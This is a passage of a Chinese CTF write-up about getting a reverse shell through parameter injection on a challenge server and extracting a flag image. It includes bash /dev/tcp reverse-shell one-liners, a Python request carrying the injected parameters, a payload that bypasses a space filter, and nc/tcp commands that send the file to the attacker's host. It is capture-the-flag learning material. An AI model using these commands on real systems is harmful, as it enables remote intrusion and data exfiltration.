 ```
bash -c "bash -i < /dev/tcp/addr/port"
```

写一个脚本反弹

```python
import requests
url='http://1.14.102.22:8115/'
params={
    'DATA[ADDR]':'xxxx',
    'DATA[PORT]':'10000'
    }
headers={
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36'
}
a=requests.get(url=url,params=params,headers=headers)
print(a.text)
```

发现能成功反弹，但是无法执行命令，应该是由于执行的是输入重定向导致攻击机无法回显
那么如果我们利用这个输入的shell在靶机上再执行一次反弹shell并监听呢？
第一个方法：先反弹shell之后，再在攻击机上输入（这人需要换一个端口）

```
bash -i >& /dev/tcp/xxx/1212 0>&1
```

第二个方法：直接使用文件描述符

```php
DATA[ADDR]=ip&DATA[PORT]=port%091<%260
因为空格被过滤了 ，我们使用%09来代替，让被攻击机的回显返回到攻击机上。   
```

开始执行命令

![image-20211022171137297](https://img-blog.csdnimg.cn/img_convert/09d8320fdb9659d1e4b8e3d764e3173f.png)
提示说flag在根目录的图片中，但是命令行不能处理图片

第一种方法：利用base64或者二进制编码处理

```
因为终端有长度限制，所以使用tail与head截取
cat /flag.png | base64 | tail -n +1|head -n 8000

cat /flag.png | base64 | tail -n +8001|head -n 8000

每次读8000行，读两次，把读取到的base64编码转为图片就好了
```

第二种方法：直接下载到自己的服务器

```php
nc -lvvnp 1234 > flag.png  //自己服务器
cat /flag.png >/dec/tcp/xxxxx/1234  //命令行
```
